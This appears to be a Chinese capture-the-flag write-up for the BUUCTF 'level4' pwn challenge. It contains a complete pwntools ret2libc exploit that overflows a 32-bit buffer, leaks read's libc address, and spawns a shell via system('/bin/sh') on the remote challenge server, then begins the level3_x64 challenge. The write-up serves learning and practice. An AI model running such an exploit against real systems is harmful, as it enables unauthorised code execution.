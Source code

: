 ```c
  __set_errno (ENOSYS);
  return -1;
}
```

对于write函数如何使用的过程在[上一题参考的博客](https://blog.csdn.net/mcmuyanga/article/details/109260008)中介绍的很详细，直接看就理解了。

exp

```python
from pwn import*
from LibcSearcher import*


context(log_level='debug',os='linux',arch='i386')
io=remote('node4.buuoj.cn',28299)
#io=process('/home/vi0let/文档/pwn/BUUCTF/level4')
elf=ELF('/home/vi0let/文档/pwn/BUUCTF/level4')

junk=b'a'*(0x88+4)	#加4是因为还需要覆盖掉返回地址，而程序是32位的
main=elf.sym['main']
write_plt=elf.plt['write']
read_got=elf.got['read']

payload=junk+p32(write_plt)+p32(main)+p32(1)+p32(read_got)+p32(4)
io.send(payload)
read_addr=u32(io.recv(4))
print(hex(read_addr))

libc=LibcSearcher('read',read_addr)		#也可以使用在线网站查询
base=read_addr-libc.dump('read')
system=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')

payload=junk+p32(system)+p32(main)+p32(bin_sh)
io.sendline(payload)
io.interactive()
```

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955230.png" alt="image-20220322183914531" style="zoom:80%;" />

这题差不多是自己做的，主要是昨天看到的那片题解讲的太详细，懂了一些原理。

2022/03/22



#### jarvisoj_level3_x64

检查保护

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955023.png" alt="image-20220323180937446" style="zoom:80%;" />

64位，仅开启NX保护

